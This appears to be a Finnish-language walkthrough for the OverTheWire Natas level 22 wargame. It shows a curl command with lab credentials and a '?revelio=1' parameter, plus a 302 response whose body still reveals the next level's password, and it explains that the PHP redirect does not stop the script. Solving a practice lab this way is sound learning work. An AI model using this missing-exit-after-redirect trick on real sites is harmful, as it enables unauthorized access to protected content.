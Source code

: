 ```
```


MItä tämä tosiaan tekekään: `curl -i --user natas22:d8rwGBl0Xslg3b76uh3fEbSlnOUBlozz "http://natas22.natas.labs.overthewire.org/?revelio=1"` <br>
- `-i` näyttää http hederit
- `--user` kirjauduttaan sisään millä tunnuksella <username:password> sitten "http-url" ja `/?revelio=1`

```
┌──(kali㉿kali)-[~]
└─$ curl -i --user natas22:d8rwGBl0Xslg3b76uh3fEbSlnOUBlozz "http://natas22.natas.labs.overthewire.org/?revelio=1"
HTTP/1.1 302 Found
Date: Fri, 18 Jul 2025 12:32:54 GMT
Server: Apache/2.4.58 (Ubuntu)
Set-Cookie: PHPSESSID=mnv6949mir0vverielcbtbt54l; path=/; HttpOnly
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Location: /
Content-Length: 1028
Content-Type: text/html; charset=UTF-8



<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas22", "pass": "d8rwGBl0Xslg3b76uh3fEbSlnOUBlozz" };</script></head>
<body>
<h1>natas22</h1>
<div id="content">

You are an admin. The credentials for the next level are:<br><pre>Username: natas23
Password: dIUQcI3uSus1JEOSSWRAEXBG8KbR8tRs</pre>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

**Miksi tämä toimii näin?**
- vaikka siinä php koodissa on mainittu lähettää `location: /` headeriä, mutta se ei lopeta skriptiä. 
- curl komennossa ei seuraa uudelleen ohjausta automaattisesti, niin se näyttää koko vastauksen ja mukaan lukien salasanansa.
- Pieni pohdintana olisiko pitänyt tietää tämä vastaus kuitenkin että sijoittaa ton parametrin perään vaan ja sitten mukaan curl -i natas 22 käyttäjä.
